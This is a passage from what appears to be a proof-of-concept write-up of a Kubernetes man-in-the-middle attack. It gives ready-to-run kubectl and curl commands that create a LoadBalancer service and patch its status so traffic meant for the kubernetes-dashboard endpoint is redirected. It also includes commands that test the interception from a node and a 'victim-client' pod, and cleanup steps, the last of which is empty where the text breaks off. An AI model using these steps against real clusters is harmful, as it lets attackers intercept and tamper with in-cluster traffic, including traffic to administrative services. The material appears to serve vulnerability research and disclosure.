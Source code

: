 ```
# node -> clusterIP
curl -sv https://10.233.36.240 -k
# pod -> clusterIP
kubectl exec victim-client -- curl -sv https://10.233.36.240 -k
```
Cleanup
```
kubectl delete -n kubeproxy-mitm svc/mitm-service-eip
```

### 3a) k8s pod traffic interception using service type LoadBalancer

Find a service to attack + its endpoints, in my testing I chose kubernetes-dashboard
```
kubectl get -n kube-system svc/kubernetes-dashboard
# NAME                   TYPE        CLUSTER-IP      EXTERNAL-IP   PORT(S)   AGE
# kubernetes-dashboard   ClusterIP   10.233.36.240   <none>        443/TCP   42m

kubectl get -n kube-system endpoints kubernetes-dashboard
# NAME                   ENDPOINTS           AGE
# kubernetes-dashboard   10.233.115.2:8443   9h
```
Deploy the MITM
```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Service
metadata:
  name: mitm-pod-lb
  namespace: kubeproxy-mitm
spec:
  ports:
  - name: https
    port: 443
    protocol: TCP
    targetPort: 8443
  - name: https2
    port: 8443
    protocol: TCP
    targetPort: 8443
  selector:
    app: echoserver
  type: LoadBalancer
EOF
kubectl proxy --port=8080 &
sleep 3
curl -k -v -XPATCH  -H "Accept: application/json" -H "Content-Type: application/merge-patch+json" 'http://127.0.0.1:8080/api/v1/namespaces/kubeproxy-mitm/services/mitm-pod-lb/status' -d '{"status":{"loadBalancer":{"ingress":[{"ip":"10.233.115.2"}]}}}'
pkill kubectl
```
Test if MITM works
```
# node -> clusterIP
curl -sv https://10.233.36.240 -k
# pod -> clusterIP
kubectl exec victim-client -- curl -sv https://10.233.36.240 -k
# node -> endpoint
curl -sv https://10.233.115.2:8443 -k
# pod -> endpoint
kubectl exec victim-client -- curl -sv https://10.233.115.2:8443 -k
```
Cleanup
```
```